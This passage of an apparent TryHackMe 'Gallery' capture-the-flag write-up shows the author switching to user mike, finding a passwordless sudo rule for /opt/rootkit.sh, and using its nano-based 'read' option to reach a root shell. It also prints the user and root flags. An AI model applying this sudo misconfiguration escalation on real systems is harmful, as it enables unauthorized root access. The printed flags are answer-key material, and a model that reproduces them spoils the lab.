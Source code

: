 Changed user to mike and got user flag
```console
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password:
mike@gallery:/var/backups/mike_home_backup$ cd
mike@gallery:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```
### Privilege escalation 
On sudo -l found that mike can run a script without password. 
```console
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
On reading file found that on giving option as read to the file while execution it opens a file with nano, which we can further exploit.<br />
```console
mike@gallery:~$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac

mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
```
Found the root flag
```console
# cat /root/root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}

```


